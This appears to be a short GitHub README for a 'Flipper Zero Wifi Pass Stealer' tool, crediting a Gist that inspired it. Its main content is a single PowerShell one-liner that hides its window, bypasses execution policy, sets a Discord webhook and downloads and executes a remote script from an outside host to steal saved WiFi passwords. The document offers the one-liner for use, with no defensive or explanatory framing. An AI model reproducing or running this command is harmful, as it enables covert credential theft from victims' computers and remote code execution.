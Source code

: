 # FlipperZeroWifiPassStealer
Flipper Zero Wifi Pass Stealer

## Credits

This project was inspired by and based on [AlexZeGamer's Gist](https://gist.github.com/AlexZeGamer/c7269927335d152cc28d31022c00882e). Many thanks to the original author for their work!

##Code

powershell -w h -ep bypass $discord='<your_webhook_here>';irm link.wmlsandaruwan.online/WifiPassStealerMultilang | iex
